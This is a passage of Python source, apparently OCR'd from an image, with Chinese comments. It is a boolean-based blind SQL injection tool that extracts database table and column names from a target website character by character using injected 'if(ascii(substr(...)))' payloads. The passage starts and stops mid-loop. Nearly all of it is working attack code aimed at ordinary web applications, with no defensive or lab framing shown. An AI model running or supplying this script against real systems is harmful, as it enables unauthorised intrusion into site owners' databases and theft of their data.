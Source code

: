 ```python
			payload = "' and if((select LENGTH(table_name) from information_schema.tables where table_schema='{0}' limit {1},1)={2},1,0) %23"
			targetUrl = url + payload
			res = conn.get(targetUrl.format(dbname, a, tableLen))
			if flag in res.content.decode("utf-8"):
				break
		# 开始获取表名
		# 临时存放当前表名的变量
		table = ""
		# b表示当前表名猜解的位置
		for b in range(1, tableLen+1):
			payload = "' and if(ascii(substr((select table_name from information_schema.tables where table_schema='{0}' limit {1},1),{2},1))={3},1,0) %23"
			targetUrl = url + payload
			# c表示33~127位ASCII中可显示字符
			for c in range(33, 128):
				res = conn.get(targetUrl.format(dbname, a, b, c))
				if flag in res.content.decode("utf-8"):
					table += chr(c)
					print(table)
					break
		#把获取到的名加入到DBTables
		DBTables.append(table)
		#清空table，用来继续获取下一个表名
		table = ""


# 获取数据库表的字段函数
def GetDBColumns(url, dbname, dbtable):
	global DBColumns
	# 存放字段数量的变量
	DBColumnCount = 0
	print("[-]开始获取{0}数据表的字段数:".format(dbtable))
	for DBColumnCount in range(99):
		payload = "' and if((select count(column_name) from information_schema.columns where table_schema='{0}' and table_name='{1}')={2},1,0) %23"
		targetUrl = url + payload
		res = conn.get(targetUrl.format(dbname, dbtable, DBColumnCount))
		if flag in res.content.decode("utf-8"):
			print("[-]{0}数据表的字段数为:{1}".format(dbtable, DBColumnCount))
			break
	# 开始获取字段的名称
	# 保存字段名的临时变量
	column = ""
	# a表示当前获取字段的索引
	for a in range(0, DBColumnCount):
		print("[-]正在获取第{0}个字段名".format(a+1))
		# 先获取字段的长度
		for columnLen in range(99):
			payload = "' and if((select length(column_name) from information_schema.columns where table_schema='{0}' and table_name='{1}' limit {2},1)={3},1,0) %23"
			targetUrl = url + payload
			res = conn.get(targetUrl.format(dbname, dbtable, a, columnLen))
			if flag in res.content.decode("utf-8"):
				break
		# b表示当前字段名猜解的位置
		for b in range(1, columnLen+1):
			payload = "' and if(ascii(substr((select column_name from information_schema.columns where table_schema='{0}' and table_name='{1}' limit {2},1),{3},1))={4},1,0) %23"
			targetUrl = url + payload
			# c表示33~127位ASCII中可显示字符
			for c in range(33, 128):
				res = conn.get(targetUrl.format(dbname, dbtable, a, b, c))
```